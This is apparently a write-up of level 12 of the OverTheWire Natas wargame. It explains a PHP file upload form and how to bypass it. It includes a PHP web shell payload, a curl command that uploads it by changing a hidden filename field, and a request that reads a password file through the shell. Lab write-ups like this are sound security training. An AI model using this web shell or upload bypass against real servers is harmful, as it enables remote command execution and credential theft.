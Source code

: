 Level 12
--------

This time, we have a file upload form. Let's take a look at the code
that processes input.

Let's walk through this code:

  - We start with a `genRandomString` function, which appears to
    create a 10-character random string.
  - Then, we send a directory and an extension to the `makeRandomPath`,
    which creates a random filename (using the extension provided)
    until the filename is not in use.
  - We also create a `makeRandomPathFromFilename` function which takes
    in a directory and a filename, and extracts the extension from the
    filename. Then it uses this information to call `makeRandomPath`.
  - Then the PHP code checks to see if a file has been uploaded, and
    then creates a random path from the provided filename. Then it
    checks the size to make sure it's under 1000 bytes, and if these
    checks pass, it uploads the file and tells us where it is.

Let's ses if we can upload some PHP code, and have it get executed.

An important thing to notice about the source code is where the script
retrieves the original filename from. We can see that it is not the
provided filename, but rather the `filename` parameter hidden in the
form. This parameter contains a random string followed by a `.jpg`
extension. So, tentatively we can see that unless we can intercept and
change this value before it is received by the server, we will not be
able to (easily) execute PHP code.

Let's take a look at exactly what data we can control, and how it
winds up after the script executes to see if we can upload a PHP file,
have it maintain its extension, and allow us to browse to it.

 1. Original file containing our PHP code. The server calls this `randomString.jpg`
 2. Change the filename to `shell.php` before it reaches the server.
 3. Server receives the file.
 4. `MakeRandomPathFromFilename("upload", "shell.php");`
 5. `$ext = '.php';`
 6. `MakeRandomPath("upload", "php");`
 7. returns "upload/new_random_string.php"
 8. Link to that file is provided to us.
 9. When we visit that link, Apache will see `.php` and execute it for us. How helpful!

How's this for an exploit payload?

     <?php
     // Rudimentary Shell
     passthru($_GET['cmd']);
     ?>

So, after examining the file upload form, we can use curl to POST our data:

    curl -u natas12:... \
        -F MAX_FILE_SIZE=1000 \
        -F filename=pwnd.php \
        -F "uploadedfile=@shell.php" \
        http://natas12.natas.labs.overthewire.org/index.php

Now we use the URL it returned, with `?cmd=cat%20/etc/natas_webpass/natas13`:

    curl -u natas12:... \
        "http://natas12.natas.labs.overthewire.org/upload/krgtfuwc2f.php?cmd=cat%20/etc/natas_webpass/natas13"
    ...
